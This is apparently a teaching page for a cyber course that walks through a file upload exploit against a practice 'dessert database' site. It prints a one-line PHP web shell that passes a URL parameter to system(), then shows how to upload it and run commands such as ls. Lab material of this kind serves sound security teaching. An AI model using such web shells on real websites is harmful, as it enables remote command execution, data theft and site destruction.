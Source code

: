 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. We could destroy the website if we wanted to!
> But we won't do that cause we are not the L33k3ers!

Now that you know what know what this file does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says **Warning**, and underneath of that will be a little question mark image.

Right click on this image and select, **"Open Link in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 







